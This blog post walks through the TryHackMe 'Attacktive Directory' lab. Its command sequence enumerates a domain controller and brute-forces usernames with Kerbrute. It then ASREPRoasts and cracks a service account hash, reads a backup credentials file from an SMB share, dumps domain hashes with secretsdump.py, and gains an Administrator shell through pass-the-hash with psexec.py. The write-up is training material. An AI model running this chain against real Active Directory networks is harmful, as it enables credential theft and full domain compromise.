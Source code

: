 ```yaml
---
layout: post
title: Attacktive Directory – Try Hack Me
subtitle: Walkthrough
tags: [active,directory]
---
```


99% of Corporate networks run off of Active Directory from this machine you will have a good base understanding on how to exploit such an environment. 

Learning Objectives:

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket

[Challenge](https://tryhackme.com/room/attacktivedirectory)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 => Impacket

Install Impacket, this is a collection of Python classes for working with network protocols. More information can be found [here](https://www.secureauth.com/labs/open-source-tools/impacket). 
Have a look at [this](https://github.com/SecureAuthCorp/impacket.git) Github repository to learn how to install it.

## Task 3 => Enumeration 1

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.194.183 spookysec.local >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap spookysec.local
~~~

![nmap](/img/2020-04-26-AttacktiveDir/nmap.png)

Using the first scan we will use the port discovered and run a more complete scan.

~~~
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
~~~

![nmapa](/img/2020-04-26-AttacktiveDir/nmapA.png)

From this scan we discover the Domain Name of the machine as well as the the full AD domain. 

## Task 4 => Enumeration 2

Using enum4linux we are able to enumerate port 139 and 445.
This tool output quite a lengthy output, we will only post the important parts for the walkthrough.

~~~
enum4linux -A  spookysec.local
~~~

![enum](/img/2020-04-26-AttacktiveDir/enum.png)
![enum2](/img/2020-04-26-AttacktiveDir/enum2.png)

We managed to also retrieve information about the full AD domain name and the Domain Name of the machine plus some username that might be useful later. 

We follow using the tool [Kerbrute](https://github.com/ropnop/kerbrute/), which can be installed using the following command:

~~~
go get github.com/ropnop/kerbrute
~~~

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

~~~
~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
~~~

![kerbrute](/img/2020-04-26-AttacktiveDir/kerbrute.png)

## Task 5 => ASREPRoasting

From the output we are able to validate some active usernames.
Once we have discovered a list of usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash.
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

~~~
python3 GetNPUsers.py spookysec.local/svc-admin
~~~

![tgt](/img/2020-04-26-AttacktiveDir/tgt.png)

We are able to retrieve a hash from the svc-admin account, we now proceed to crack the hash using hashcat. In order to discover the mode we can have a look at the [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes).
We have saved the previous hash in the hash.txt file.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 18200 hash.txt passwordlist.txt --force
~~~

## Task 6 => Enumeration 3

Having user credentials we can attempt to log into SMB and explore any shares from the domain controller.
This is possible with the tool smbclient, make sure to use the user 'svc-admin' as well as the previous cracked password.

~~~
smbclient -L spookysec.local --user svc-admin
~~~

![smb](/img/2020-04-26-AttacktiveDir/smb.png)

After exploring several shares, we found the file 'backup_credentials.txt'. 

~~~
smbclient \\\\spookysec.local\\backup --user svc-admin
~~~

![smb2](/img/2020-04-26-AttacktiveDir/smb2.png)

Looking at the content of the file we can see it is encoded with Base64. To decode it simply use the following command:

~~~
base64 -d backup_credentials.txt
~~~

## Task 7 => Elevating Privileges

Using the backup account we can use another tool from Impacket this time called 'secretsdump.py', we will be able to get all the password hashes that this user account has access to.

~~~
python3 secretsdump.py -just-dc backup@spookysec.local
~~~

![secret](/img/2020-04-26-AttacktiveDir/secret.png)

Now we are in possession of the Administrator password hash. The next step will be performing a [Pass the Hash Attack](https://attack.stealthbits.com/pass-the-hash-attack-explained). 
For this we can use another tool from Impacket called 'psexec.py'. For this tool you must paste the complete Administrator hash in the following command:

~~~
python3 psexec.py Administrator:@spookysec.local -hashes <Complete Hash>
~~~

![rce](/img/2020-04-26-AttacktiveDir/rce.png)

Congratulations, you now have complete access to the system, feel free to navigate to each user Desktop and get the flags.
Hope you enjoyed this guide. :)
